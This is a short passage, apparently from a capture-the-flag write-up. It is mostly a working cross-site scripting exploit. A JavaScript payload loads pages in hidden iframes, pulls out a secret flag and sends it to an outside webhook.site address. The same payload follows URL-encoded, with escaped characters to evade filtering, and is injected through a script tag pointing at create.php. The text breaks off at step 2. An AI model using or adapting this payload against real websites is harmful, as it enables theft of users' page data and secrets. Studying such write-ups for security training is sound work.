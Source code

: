 1) Create a new user with the following content, which will trigger the firewall (allowing us to upload "files"). Alternative is service workers.

Plain script:
```javascript
function readPage (url, callback) {
    if(window.child){ window.child.remove() }
    f = document.createElement("iframe"); f.src=url; f.id="child"; f.onload = function(){callback(child.contentWindow.document.body)};
    document.body.appendChild(f);
}

function exfil (content) {
    window.location = 'https://webhook.site/91631429-ca91-4d81-9bb0-44d78e338e48/leak?' + encodeURIComponent(content)
}

readPage("/", function(body) {
    const flagUrl = body.querySelector('li a').href;
    readPage(flagUrl, function(flagBody) {
        flag = flagBody.querySelector(".body").innerText;
        exfil(flag)
    })
})
```
<Script src="/create.php?a=loc%41tion%22;function%20readPage%20%28url%2C%20callback%29%20%7B%20%20%20%20%20if%28window.child%29%7B%20window.child.remove%28%29%20%7D%20%20%20%20%20f%20%3D%20document.createElement%28%22iframe%22%29%3B%20f.src%3Durl%3B%20f.id%3D%22child%22%3B%20f.onload%20%3D%20function%28%29%7Bcallback%28child.contentWindow.document.body%29%7D%3B%20%20%20%20%20document.body.appendChild%28f%29%3B%20%7D%20%20function%20exfil%20%28content%29%20%7B%20%20%20%20%20window.loc%61tion%20%3D%20%27https%3A%2F%2Fwebhook.site%2F91631429-ca91-4d81-9bb0-44d78e338e48%2Fleak%3F%27%20%2B%20encodeURIComponent%28content%29%20%7D%20%20readPage%28%22%2F%22%2C%20function%28body%29%20%7B%20%20%20%20%20const%20flagUrl%20%3D%20body.querySelector%28%27li%20a%27%29.href%3B%20%20%20%20%20readPage%28flagUrl%2C%20function%28flagBody%29%20%7B%20%20%20%20%20%20%20%20%20flag%20%3D%20flagBody.querySelector%28%22.body%22%29.innerText%3B%20%20%20%20%20%20%20%20%20exfil%28flag%29%20%20%20%20%20%7D%29%20%7D%29//"></script>
```

2)